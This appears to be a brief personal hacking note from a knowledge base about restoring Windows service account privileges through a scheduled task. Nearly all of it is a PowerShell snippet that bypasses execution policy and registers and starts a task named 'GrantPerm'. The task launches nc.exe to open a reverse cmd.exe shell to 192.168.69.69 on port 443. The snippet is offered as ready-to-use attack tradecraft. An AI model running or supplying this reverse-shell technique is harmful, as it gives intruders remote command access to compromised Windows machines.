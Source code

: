 # service account privileges restore using scheduled task with powershell
```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\windows\tasks\nc.exe 192.168.69.69 443 -e cmd.exe`""
Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"
Start-ScheduledTask -TaskName "GrantPerm"
```

# References
- [20221003151080](/zet/20221003151080/README.md) service account privileges restore
- [20221003151078](/zet/20221003151078/README.md) service account privileges restore using scheduled task with powershell require seimpersonate privilege for task using principal
- ~/kb/hacking/windows/service-account-privileges.md

Tags:
    #assorted
